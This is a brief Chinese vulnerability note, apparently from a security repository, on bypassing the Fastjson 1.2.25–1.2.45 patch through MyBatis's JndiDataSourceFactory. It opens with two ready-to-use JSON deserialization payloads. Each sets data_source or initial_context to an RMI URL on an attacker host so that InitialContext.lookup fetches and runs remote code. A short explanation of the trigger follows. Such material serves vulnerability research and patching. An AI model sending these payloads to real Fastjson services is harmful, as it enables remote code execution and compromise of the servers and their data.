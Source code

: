 # Fastjson1.2.25-1.2.45补丁绕过(mybatis<3.5.0)

先给出payload

```Java
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://vps:port/TouchFile"}}
```

我们看看这个`JndiDataSourceFactory`，可以看到这里面的`setProperties`方法中调用了`InitialContext.lookup()`

![](img/1.png)

其中参数由我们输入的properties属性中的data_source值获取的,之后就是由JNDI注入漏洞成功触发Fastjson反序列化漏洞了。

当然也可以由上面的分支进行JNDI注入

```Java
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"2333","initial_context":"rmi://ip:port/TouchFile"}}
```

